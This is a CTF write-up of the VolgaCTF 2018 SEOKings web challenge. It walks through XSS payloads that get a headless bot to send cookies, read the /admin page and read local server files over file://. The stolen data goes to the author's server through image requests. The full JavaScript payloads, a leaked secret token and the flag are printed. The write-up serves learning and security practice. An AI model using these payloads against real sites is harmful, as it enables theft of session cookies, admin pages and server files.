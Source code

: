 It's write-up of SEOKings ( points 350 ) web problem of Volga CTF 2018. ( link [here](http://seo-kings.quals.2018.volgactf.ru:8080/) )

It was a long problem, also it was the first time, that I did some xss stuff.

Let's dive into the problem.

The website looks like this :

	Main Page

![Main Page](https://user-images.githubusercontent.com/17861054/37878445-3f94143a-3087-11e8-80ee-2b0956636bf6.png)


You can see the Try button, and the input box above it, where you can insert the website for the company to have a look at.

At first I tried looking for 'robots.txt' on the site but it didn't reveal anything, except something about a 'config.ru' file ( look at the bottom of the page, in red ).

	/opt/seo-kings/config.ru
    
![Robots.txt - /opt/seo-kings/config.ru](https://user-images.githubusercontent.com/17861054/37878454-686403ac-3087-11e8-95fc-5734dc80afe0.png)

Then I tried `'/admin'` directory, one of the some common directories' , well this is what I got :

    Please, use local IP
![Admin - Please, use local IP](https://user-images.githubusercontent.com/17861054/37878457-6cf034cc-3087-11e8-998d-e6877ad06d1c.png)


Now, it was certain that you can't directly access it, so I started looking into ways to access it from local IP.

Searching around I stumbled upon a **NULLCon '13 question's write-up** [here](https://sysexit.wordpress.com/2013/02/04/nullcon-hackim-ctf-2013-web-100-200-400-write-ups/), through this I came to know about an *accidentally found bug* in stackoverflow through a header as mentioned [here](https://blog.ircmaxell.com/2012/11/anatomy-of-attack-how-i-hacked.html).

So I set it like this :

`X-Forwarded-For: 127.0.0.1`

Still the same, replaced `127.0.0.1` with `localhost` but nothing changed. Then it clicked me, maybe XSS might work. I made a simple script to get the cookie like this ( the most basic of XSS perhaps, apart from alert popup boxes ) :

```
" /><img src="x" onerror="http://my_server_ip/?cookie='+document.cookie'"></img>
```

but it didn't work, then I changed it a bit, to this :

```
" /><img src="http://my_server_ip/?cookie='+document.cookie'"></img>
```

and lo behold I got a ping on my server, however as there wasn't any cookie so I didn't get any but the point is XSS 's working.

```
188.246.233.46 - - [24/Mar/2018:17:56:25 +0000] "GET / HTTP/1.1" 200 3525 "http://localhost:8080/validator?site=%22%20/%3E%3Cimg%20src=%22http://my_server_ip_here/%22%3E%3C/img%3E" "Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) PhantomJS/1.9.8 Safari/534.34"
```

So, now I had to get the bot ( phantomJS ) to visit `'/admin'` , somehow .

I tried adding **iframes** to the page and accessing it's content but I wasn't getting anything.

Told the admin about it, he suggested instead of iframe I should try using xhr. Well it was the first time I was doing xss , so I didn't thought I might actually solved it. 

By now it was 4 am ( IST ) and I had been doing it for the past 4 hours with somewhat very little progress.

I started back after some good sleep and trying on some other problems. Later in the afternoon I made a simple script called payload.js to get the page using xhr and it's contents.

```
try{
    var data = null;
    var xhr = new XMLHttpRequest();
    //xhr.withCredentials = true;
    xhr.addEventListener("readystatechange", function () {
      if (this.readyState === 4) {
        new Image().src="http://my_server_ip/?from_admin_payload="+this.responseText;
      }
     else{
       new Image().src="http://my_server_ip/?xhr_not_executed";
      }
   });
  xhr.open("GET", "/admin");
  xhr.send(data);
}
catch(err){
  new Image().src="http://my_server_ip/?err="+err.message;
}
```
Well this also didn't help much, I wasn't getting anything, after 15 minutes I thought maybe I might be getting something in the headers, changed the JS code, added this

```
new Image().src="http://my_server_ip/?rsp_headers="+String(this.getAllResponseHeaders());
```

*Still nothing :(*

Well, it definitely has something evil going on, by now only one hour was left for the CTF to end, I asked one of the admins, he suggested I use [file protocol](https://en.wikipedia.org/wiki/File_URI_scheme) to get '*some file*'. Well file protocol, is used to access files on local system. Now, it clicked to me about the hint on '**robots.txt**' page */opt/seo-kings/config.ru*

I changed last line of the xhr request to this :

```
xhr.open("GET", "file:///opt/seo-kings/config.ru");
```

Nothing worked, now it was confusing , I pinged the admin again, he suggested to use *synchronous* request instead. It was silly of me to make the request '*asynchronously*', well I don't know js much, and as the clock was ticking so didn't care to look for the function definition of `xhr.open()` .

Well to make it synchronous the third parameter, was to be made false. Obviously, it needed some time to read the file, so the synchronous request.

The whole script was generated by '**[Postman](https://chrome.google.com/webstore/detail/postman/fhbjgbiflinjbdggehcddcbncdddomop/related?utm_source=chrome-app-launcher-info-dialog)**', I just made the request and clicked on it's code option to get a xhr code ( sweet :p ). So, obviously I didn't know about the synchronous/ asynchronous thing here.

Anyway coming back to the point, I changed it to :

```
xhr.open("GET", "file:///opt/seo-kings/config.ru", false);
```

Well, now I was getting something. I decoded the url-encoded string to this :

```
require 'sinatra'
require "open-uri"
require 'openssl'
require 'uri'
require 'sinatra/base'
Dir.glob('./app/{controllers}/*.rb').each { | file | require file
}
map('/') {
    run MainController
}
map('/admin') {
    run AdminController
}

```
Well now, only 15 minutes were left, it was the first time I had seen **sinatra** web application, quickly
googled the directory structure of it and got this [here](https://nickcharlton.net/posts/structuring-sinatra-applications.html).

```
.
├── Rakefile
├── app
│   ├── controllers
│   │   ├── application_controller.rb
│   │   └── example_controller.rb
│   ├── helpers
│   │   └── application_helper.rb
│   └── views
│       ├── example.erb
│       ├── layout.erb
│       └── not_found.erb
├── config.ru
└── spec
    ├── controllers
    │   ├── application_controller_spec.rb
    │   └── example_controller_spec.rb
    ├── helpers
    │   └── application_helper_spec.rb
    └── spec_helper.rb
```

So, I had to get the file `'/opt/seo-kings/controllers/admin_controller.rb`.

I changed the script and got the `admin_controller.rb` :

```
require './app/controllers/application_controller.rb'
class AdminController < ApplicationController OpenSSL::SSL::VERIFY_PEER = OpenSSL::SSL::VERIFY_NONE SECRET_TOKEN = "d595462f496fd347796b60b605b72ff6"
get '/'
do
    if local ? token = params[: token]
if (token == SECRET_TOKEN) @flag = Flagclass::FLAG erb: flag end
else "Please, use local ip"
end
end end 
```
Well so I had to add a `GET` parameter named `token` to the **admin** endpoint to get it ( Later the organizers had added a hint that was : **You missed some parameters** )

So, finally I changed the `payload.js` to this :
```
try{
var data = null;

var xhr = new XMLHttpRequest();
var url = "http://my_server_ip/?";
xhr.addEventListener("readystatechange", function () {
  if (this.readyState === 4) {
//	new Image().src=url+JSON.stringify(this);
	new Image().src=url+"from_admin_payload="+String(this.responseText);
//	var responseHeaders = this.getAllResponseHeaders();
//	new Image().src=url+"rsp_headers="+String(this.getAllResponseHeaders());
  }
else{
	new Image().src=url+"xhr_not_executed";
	new Image().src=url+JSON.stringify(this.responseText);

}
});
var base = "file:///opt/seo-kings/"
var filename = "app/controllers/admin_controller.rb"
//xhr.open("GET", base+filename,false);
xhr.open("GET", "/admin?token=d595462f496fd347796b60b605b72ff6",false);
xhr.send(data);
}
catch(err){
	new Image().src="http://my_server_ip/?err="+err.message;
}
```
And lo behold here comes the flag :

```
<!DOCTYPE html>
<html>

<head>
    <title></title>
</head>

<body>VolgaCTF{hope_it_was_like_madness}</body>

</html> 
```

Well, as mentioned earlier, I couldn't finish the question on time, the CTF had ended 5 minutes earlier .

But it was fun challenge and definitely got me to learn a lot many things about XSS.

Thanks.
